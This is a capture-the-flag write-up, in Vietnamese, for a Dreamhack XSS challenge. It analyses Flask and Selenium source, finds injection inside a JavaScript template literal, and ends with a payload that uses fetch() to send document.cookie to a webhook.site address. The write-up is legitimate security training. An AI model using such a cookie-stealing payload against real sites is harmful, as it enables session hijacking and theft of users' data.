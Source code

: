 # XSS

**Tên challenge:**  Safe Input

**Link challenge:** [Here](https://dreamhack.io/wargame/challenges/1671)

**Tác giả challenge:** Dreamhack

**Mục tiêu challenge:** It's so safe that it can't be seen.

The flag format for this challenge is `DH{...}`.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Challenge sẽ cung cấp cho ta 1 Source Code và Website có chức năng show đoạn text như sau:

![alt text](./images/image.png)

Để ý thì ta thấy khi truy cập vào `/` thì trang Web đã redirect ta sang `/test`, để hiểu rõ hơn thì ta sẽ đào sâu vào Source Code.

**B2:** Ta đi sâu vào Source Code mà Challenge cung cấp:
```python
from flask import Flask, redirect, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
from time import sleep
from os import urandom, environ
from urllib.parse import quote

app = Flask(__name__)
app.secretkey = urandom(32)

FLAG = environ.get("FLAG", "DH{fake_flag}")
PASSWORD = environ.get("PASSWORD", "1234")


def access_page(text, cookie={"name": "name", "value": "value"}):
    try:
        service = Service(executable_path="/chromedriver-linux64/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get(f"http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(f"http://127.0.0.1:8000/test?text={quote(text)}")
        sleep(1)
    except Exception as e:
        print(e, flush=True)
        driver.quit()
        return False
    driver.quit()
    return True

@app.route("/", methods=["GET"])
def index():
    return redirect("/test")

@app.route("/test", methods=["GET"])
def intro():
    text = request.args.get("text")
    return render_template("test.html", test=text)


@app.route("/report", methods=["GET", "POST"])
def report():
    if request.method == "POST":
        text = request.form.get("text")
        if not text:
            return render_template("report.html", msg="fail")

        else:
            if access_page(text, cookie={"name": "flag", "value": FLAG}):
                return render_template("report.html", message="Success")
            else:
                return render_template("report.html", message="fail")
    else:
        return render_template("report.html")


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)

```
Từ trên, ta rút ra được vài điểm đáng chú ý sau:
1. Khi truy cập vào endpoint `/` thì nó sẽ redirect ta sang `/test`
2. Ở endpoint `/test` có nhận 1 parameter URL có tên là `text`. 
3. Endpoint `/report` có nhận vào cú POST request kèm theo 1 body parameter là `text`, sau đó nếu body parameter `text` có giá trị thì sẽ được đưa vào hàm `access_page()` kèm với `cookie` và đặc biệt là `Flag` được chứa trong `cookie` này.
4. Hàm `access_page()` tiếp nhận 2 tham số là `text` và `cookie`, tóm tắt tác dụng của hàm này là Server sẽ thực hiện 1 cú request vào `127.0.0.1/test?text={quote(text)}` trên Web Server. Và điểm đáng chú ý ở đây là Code đã đưa thẳng input `text` của ta vào mà không qua bước xử lý. Từ đây, ta có thể thấy chỗ code này có thể xảy ra lỗ hổng nào đó.

**B3:** Sau khi nắm rõ quy trình hoạt động của Code, ta sẽ thử quay lại `/test` và thêm URL parameter `text=hello` xem có chuyện gì xảy ra:

![alt text](./images/image-1.png)

=> Chẳng có gì xảy ra cả.

Ta thử bắt lại gói tin Burp-suite để xem chữ `hello` của ta đã đi đâu thì phát hiện nó được nằm trong tag `<script>` và không được hiện thị ra màn hình nên ta không thấy.

![alt text](./images/image-2.png)

Khi nhìn vào chữ `hello` được bỏ trong dấu backstick. Ta thử đổi input `text` thành:
```
hello`+`
```

Để xem gói tin sẽ ra sao thì kết quả là:

![alt text](./images/image-3.png)

Lúc này ta có thể thấy 1 khoảng trống ở giữa `hello`, nguyên do có lẽ dấu `+` trên URL đã hiểu nhầm thành khoảng trống, ta thử đổi dấu cộng `+` thành URL encode và chỉnh lại input như sau:
```
hello`%2b`
```
**Chú thích:** `%2b` là URL encode của dấu `+`/

![alt text](./images/image-4.png)

Trang Web vẫn hoạt dộng bình thường, tiếp theo ta sẽ thử tới payload kiểm tra XSS xem có thực thi được không thì nhận được kết quả bất ngờ:
```
hello`;alert(1);const a=`
```

![alt text](./images/image-5.png)

=> Vậy là chức năng này đã bị `XSS`.

Câu hỏi tiếp theo là làm sao để lấy `Flag` ?

* <u>**Trả lời:**</u> Khi đọc lại tóm tắt code ở trên, ta sẽ biết được rằng `Flag` được lưu trong `cookie` ở endpoint `/report` khi hàm `access_page()` được kích hoạt và điểu kiện để hàm `access_page` được chạy là 1 gói tin đến endpoint `/report` phải là gói tin POST, 2 là parameter body `text` phải có giá trị. Và khi đến chỗ xuất hiện parameter `text` của ta ở hàm `access_page` mà không được xử lý đúng cách:
```
driver.get(f"http://127.0.0.1:8000/test?text={quote(text)}")
```
* Ta có thể kết hợp với lỗi XSS ở trên và `alert(document.cookie)`, từ đó ta có thể lấy được `Flag`.

**B4:** Ta bắt đầu với giả thuyết của mình, trước tiên ta sẽ thử input `text` là `test` để xem sao:

![alt text](./images/image-6.png)

Sau khi trang Web load 1 tí thì lại trả về kết quả `Fail`:

![alt text](./images/image-7.png)

Tới đây, thì ta có thể tạm kết luận là ta không thể `alert cookie` ra được vì trang Web sẽ redirect về endpoint `/report` và sẽ không show ra kết quả `alert` nên ta sẽ dùng 1 cách khác là đẩy `cookie` ra ngoài thông qua `fetch()`.

Tuy nhiên, có 1 vấn đề khác là tại sao trang Web lại trả về `Fail`, trong khi ta chỉ input 1 từ đơn giản là `test`. Ta đọc kỹ Source Code lại thì cũng chẳng phát hiện gì bất thường cho tới khi ta dạo đến file `report.html`:
```html
{% if message %}
            <div class="note-content">
                {% if success %}
                    <p class="success">Success</p>
                {% else %}
                    <p class="fail">Fail</p>
                {% endif %}
            </div>
        {% endif %}
```
Đây chính là mấu chốt của việc in ra `Fail`, nói cho dễ hiểu thì bạn có thể nhìn đoạn code xử lý render trong endpoint `/report` sau:
```python
if access_page(text, cookie={"name": "flag", "value": FLAG}):
                return render_template("report.html", message="Success")
            else:
                return render_template("report.html", message="fail")
```
Từ đoạn code ở endpoint `/report` có thể thấy là chỉ xuất hiện `Fail` khi và chỉ khi hàm `access_page` trả về `False`. Nhưng với input đơn giản là `test` thì `access_page` nhất định sẽ trả về `True` và sau đó nó sẽ render `report.html` kèm với biến `message="Success"`. Tuy nhiên, nếu bạn tinh mắt có thể thấy ở phần xử lý `{% if success %}` của file `report.html` có vấn đề.

**Giải thích:** `If success` nghĩa là nếu biến `success` có tồn tại thì thực thi câu lệnh trong `if`, tuy nhiên khi `render_template` thì đoạn code đâu có truyền vào biến `success` nào đâu, nó chỉ truyền duy nhất biến `message`. Do đó, dù ta có nhập gì đi nữa thì nó vẫn sẽ in ra `Fail`. Đến đây ta có thể yên tâm mà lợi dụng nó và lấy `Flag`.

**B5:** Kết hợp các dữ kiện trên, ta sẽ dùng `Webhook` và `Fetch()` để đưa `cookie` trang Web ra bên ngoài:
```
`;fetch('https://webhook.site/d0c010e2-20cf-4762-9bb7-b81be4e3c0de/?cookie='+document.cookie);const a=`
```
**Lưu ý:** Đoạn code trên nên được input ở trên trình duyệt qua endpoint `/report` thay vì thông qua gói tin Burp-suite, vì payload trên Burp-suite sẽ không hoạt động do URL encode trong gói tin.

![alt text](./images/image-8.png)

=> Vậy là ta đã lấy được `Flag`.